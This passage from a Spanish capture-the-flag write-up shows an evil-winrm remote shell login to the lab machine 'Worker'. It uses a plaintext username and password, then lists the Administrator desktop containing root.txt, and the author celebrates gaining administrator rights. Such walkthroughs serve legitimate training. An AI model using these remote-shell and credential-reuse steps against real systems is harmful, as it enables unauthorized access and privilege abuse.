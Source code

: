 ```powershell
Global Group memberships     *None

*Evil-WinRM* PS C:\Users\robisl\Documents> 
```

Yyyyy

```bash
–» evil-winrm -i 10.10.10.203 -u 'carlitosway' -p 'casl0$3lw@y' 

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\carlitosway\Documents> whoami
worker\carlitosway
*Evil-WinRM* PS C:\Users\carlitosway\Documents> ls c:\Users\Administrator\Desktop


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        12/2/2020   6:26 PM             34 root.txt


*Evil-WinRM* PS C:\Users\carlitosway\Documents>
```

Perfectooooooooooooooooooooooooooooooooooooooo. Somos administradores del sistemaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (: Que lindooooooooooooooo... 

Lo unico que nos queda es ver las flags:

![270flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/worker/270flags.png)
